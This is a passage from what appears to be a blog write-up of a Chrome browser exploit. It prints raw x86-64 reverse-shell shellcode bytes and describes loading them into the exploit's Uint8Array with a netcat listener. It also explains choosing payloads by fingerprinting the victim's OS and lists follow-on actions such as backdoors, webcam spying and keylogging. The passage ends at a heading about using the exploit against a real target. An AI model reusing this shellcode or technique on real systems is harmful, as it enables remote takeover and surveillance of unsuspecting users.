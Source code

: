 ```console?comments=true
0x00, 0x6a, 0x05, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x0f, 0x05, 0x59, 0x59, 0x5f, 0x48,
0x85, 0xc0, 0x79, 0xc7, 0x6a, 0x3c, 0x58, 0x6a, 0x01, 0x5f, 0x0f, 0x05, 0x5e, 0x6a, 0x26,
0x5a, 0x0f, 0x05, 0x48, 0x85, 0xc0, 0x78, 0xed, 0xff, 0xe6
```

We can take these bytes, and replace the xcalc shellcode in our `Uint8Array` for this new shellcode. We can also start a network listener using [netcat](http://netcat.sourceforge.net/).

![Chrome exploited again, this time with a reverse shell](./chrome-3.png "Just ignore this and go back to your regularly scheduled doom scrolling")

While we already know the victim is running Linux, this shellcode could also be adapted for Windows or Mac with ease. If we were uncertain, we could also check the User Agent header of the victim's incoming requests for further indicators, but a more reliable option would be to simply fingerprint the operating system from the JavaScript we already have running and select the appropriate payload.

We can also test it in the Ubuntu test VM again, and demonstrate that we can execute commands on the exploited target:

[![Short video of Chrome being exploited in a Ubuntu VM](./ubuntu-exploited.gif "Click for a better resolution .webm")](./ubuntu-exploited.webm)

From here, we have full control over the users computer. We could read their files, or delete them all. We could install a backdoor to be able to connect whenever we want, even after the user closes their browser. We could watch them through their webcam, watch their screen and use a keylogger to capture the passwords they type. It is nearly time to do it for real against our target.


# Exploitation, For Real This Time Though
